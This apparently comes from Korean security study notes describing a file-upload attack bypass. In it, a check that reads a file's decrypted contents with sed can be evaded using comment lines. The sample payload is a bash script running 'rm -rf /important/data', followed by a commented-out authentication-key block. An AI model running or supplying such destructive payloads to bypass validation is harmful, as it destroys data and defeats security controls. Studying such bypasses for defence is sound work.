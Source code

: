 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능
#!/bin/bash  
rm -rf /important/data  
#{  
#  "key": "authentication code"  
#}  
